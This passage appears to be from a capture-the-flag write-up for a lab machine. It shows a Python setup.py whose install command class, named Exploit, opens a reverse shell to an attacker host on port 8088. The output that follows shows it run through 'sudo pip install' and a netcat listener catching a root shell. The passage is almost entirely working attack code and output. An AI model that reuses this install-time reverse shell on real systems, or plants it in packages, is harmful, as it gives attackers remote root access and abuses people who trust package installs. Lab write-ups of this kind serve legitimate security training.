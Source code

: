 

    import os
    import socket
    import subprocess

    from setuptools import setup
    from setuptools.command.install import install

    class Exploit(install):
        def run(self):
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("10.10.15.48",8088))
            os.dup2(s.fileno(),0)
            os.dup2(s.fileno(),1)
            os.dup2(s.fileno(),2)
            p = subprocess.call(["/bin/sh", "-i"])

    setup(
        cmdclass={
            "install": Exploit
        }
    )





    homer@canape:/dev/shm$ sudo pip install .
    The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    Processing /dev/shm
    Installing collected packages: UNKNOWN
      Running setup.py install for UNKNOWN ... -





    root@kali# nc -lnvp 8088
    listening on [any] 8088 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.70] 41568
    # id
    uid=0(root) gid=0(root) groups=0(root)



## Beyond Root

### Approach to Pickle Exploit

#### Overview
